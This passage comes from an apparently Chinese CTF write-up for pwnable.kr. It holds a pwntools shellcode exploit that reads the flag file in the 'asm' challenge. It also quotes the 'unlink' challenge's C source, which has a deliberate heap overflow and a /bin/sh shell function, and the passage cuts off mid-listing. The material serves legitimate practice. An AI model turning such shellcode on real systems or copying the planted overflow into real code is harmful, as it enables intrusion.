 大体上就是将部分寄存器的值清0。

直接操作:

```
#-*- coding:utf8
from pwn import *

# context.log_level = 'debug'
context(arch='amd64', os='linux')

p = ssh(host="pwnable.kr", port=2222, user="asm", password="guest")
io = p.connect_remote("0", 9026)

shellcode = ''
shellcode += shellcraft.open("this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong")
shellcode += shellcraft.read("rax", "rsp", 100)          // 
shellcode += shellcraft.write(1, 'rsp', 100)
io.recvuntil("code:")
io.send(asm(shellcode))
print io.interactive()
```

## unlink

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
	struct tagOBJ* fd;
	struct tagOBJ* bk;
	char buf[8];
}OBJ;

void shell(){
	system("/bin/sh");
}

void unlink(OBJ* P){
	OBJ* BK;
	OBJ* FD;
	BK=P->bk;
	FD=P->fd;
	FD->bk=BK;
	BK->fd=FD;
}
int main(int argc, char* argv[]){
	malloc(1024);
	OBJ* A = (OBJ*)malloc(sizeof(OBJ));
	OBJ* B = (OBJ*)malloc(sizeof(OBJ));
	OBJ* C = (OBJ*)malloc(sizeof(OBJ));

	// double linked list: A <-> B <-> C
	A->fd = B;
	B->bk = A;
	B->fd = C;
	C->bk = B;

	printf("here is stack address leak: %p\n", &A);
	printf("here is heap address leak: %p\n", A);
	printf("now that you have leaks, get shell!\n");
	// heap overflow!
```